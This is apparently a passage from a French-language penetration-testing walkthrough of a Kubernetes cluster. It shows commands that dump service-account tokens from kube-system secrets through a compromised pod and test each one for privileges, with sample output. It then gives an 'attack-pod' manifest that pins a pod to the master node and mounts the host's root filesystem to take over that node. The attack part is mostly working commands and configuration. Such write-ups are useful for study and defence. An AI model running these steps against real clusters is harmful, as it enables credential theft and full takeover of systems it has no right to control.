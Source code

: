 A ce stade on va essayer de trouver un compte plus privilégié que dev :

```
$ ./kubectl exec dev-57f659f775-4wr9p -- /tmp/.tmp/kubectl describe secrets --namespace=kube-system | grep token: | sed -e 's/token:\s\+//' > tokens
$ while read -r token; do kubectl --token=$token auth can-i --list; done < tokens
...
Resources                                       Non-Resource URLs   Resource Names   Verbs
*.*                                             []                  []               [*]
                                                [*]                 []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
...
```

Ca fait beaucoup de wildcards pour l’utilisateur clusterrole-aggregation-controller-token-ctnkr non ? On va donc utiliser son token par la suite.

# Création d’un pod pour rooter master

Le problème des deux pods que nous avions avant c’est qu’ils tournent respectivement sur node1 et node2, alors que l’on veut rooter master.  On va donc créer un pod en indiquant qu’il doit tourner sur le noeud  master et qui montera le filesystem de master, d’une manière similaire à la façon dont on peut rooter un docker avec une socket exposée dans le  guest. Le fichier de configuration du pod est une simple description au  format yaml des besoins du pod :

```
apiVersion: v1
kind: Pod
metadata:
  annotations:
  labels:
  name: attack-pod2
  namespace: default
spec:
  containers:
  - command:
    - sleep
    - "3600"
    image: busybox:latest
    imagePullPolicy: IfNotPresent
    name: attack-container
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
      path: /
  nodeSelector:
    kubernetes.io/hostname: master
```
